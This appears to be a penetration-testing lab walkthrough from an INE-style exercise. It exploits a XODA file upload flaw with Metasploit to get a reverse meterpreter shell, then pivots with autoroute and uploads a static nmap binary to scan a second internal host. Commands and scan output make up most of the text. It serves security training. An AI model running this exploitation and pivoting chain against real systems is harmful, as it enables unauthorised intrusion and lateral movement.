 #### Tasks
There are two target machines. This target machine is vulnerable and can be exploited using the following information. Use this information to retrieve services running on the second target machine.

**Vulnerability Information**
**Vulnerability:** `XODA File Upload Vulnerability`
**Metasploit module:** `exploit/unix/webapp/xoda_file_upload`

#### Objective
Identify the ports open on the second target machine using appropriate Metasploit modules. - Write a bash script to scan the ports of the second target machine. - Upload the nmap static binary to the target machine and identify the services running on the second target machine.

#### Tools
- Metasploit
- Bash
- Terminal
- Nmap

#### Solution
**Nmap Scan**
```bash
nmap -A -p- <target1>
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-13 15:39 IST
Nmap scan report for <target1> (<IP1>)
Host is up (0.000057s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: ==XODA==
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   <IP1>/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|_      https://github.com/fermayo/hello-world-lamp.git
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 02:42:C0:89:30:03 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

TRACEROUTE                                                                                                                                                
HOP RTT     ADDRESS                                                                                                                                       
1   0.06 ms <target1> (<IP1>)                                                                                                          
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                     
Nmap done: 1 IP address (1 host up) scanned in 9.99 seconds 
```

```bash
nmap -sn 192.137.48.3/24                                                                                                                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-13 15:50 IST                                                                                        
Nmap scan report for 192.137.48.1                                                                                                                         
Host is up (0.000038s latency).                                                                                                                           
MAC Address: 02:42:06:AF:65:6B (Unknown)                                                                                                                  
Nmap scan report for demo1.ine.local (192.137.48.3)                                                                                                       
Host is up (0.000036s latency).                                                                                                                           
MAC Address: 02:42:C0:89:30:03 (Unknown)                                                                                                                  
Nmap scan report for INE (192.137.48.2)                                                                                                                   
Host is up.                                                                                                                                               
Nmap done: 256 IP addresses (3 hosts up) scanned in 1.97 seconds
```

```bash
nmap -A -p- 192.137.48.2                                                                                                                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-13 15:50 IST                                                                                        
Nmap scan report for INE (192.137.48.2)                                                                                                                   
Host is up (0.000027s latency).                                                                                                                           
Not shown: 65533 closed tcp ports (reset)                                                                                                                 
PORT      STATE SERVICE       VERSION                                                                                                                     
3389/tcp  open  ms-wbt-server xrdp
45654/tcp open  http          Apache Tomcat 9.0.83
|_http-title: Site doesn't have a title (text/html).
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Network Distance: 0 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.13 seconds
```

Visit `http://192.137.48.3/.git/`

#### Msfconsole
```bash
use exploit/unix/webapp/xoda_file_upload
set RHOSTS demo1.ine.local
set TARGETURI /
set LHOST 192.63.4.2
exploit
``` 
- Received a `meterpreter` shell. 
- Now, get a `command shell` by typing `shell` in `meterpreter`.

#### Check the IP address
```bash
ipconfig
```

#### Add the Target on to Metasploit Routing table
```meterpreter
run autoroute -s <Second-Target>
```

Now, background the `meterpreter` session using `ctrl + z` and perform a port scan.

#### Metasploit Port Scan Module
```metasploit
use auxiliary/scanner/portscan/tcp
set rhosts <Second-Target>
set verbose false
exploit
```

#### Check `Static Binaries` available in `/usr/bin`
**Static binary:** It's statically linked and doesn't rely on libraries from the system. It will run even if the target system is minimal, restricted, or missing libraries.

```bash
ls -al /root/static-binaries/nmap
file /root/static-binaries/nmap
```

#### Foreground the Metasploit session and switch to the meterpreter session
```
fg
sessions -i 1
```

#### Upload the Nmap Static Binary and the Port Scanner
```meterpreter
upload /root/static-binaries/nmap /tmp/nmap
upload /root/port-scanner.sh /tmp/port-scanner.sh
```

#### Scan the Second Target
```bash
shell
cd /tmp/
chmod +x ./nmap ./port-scanner.sh
./port-scanner.sh <Second-Target>
```

#### Run the Nmap Binary to scan the Second Target
```bash
./nmap -p- <Second-Target>
```
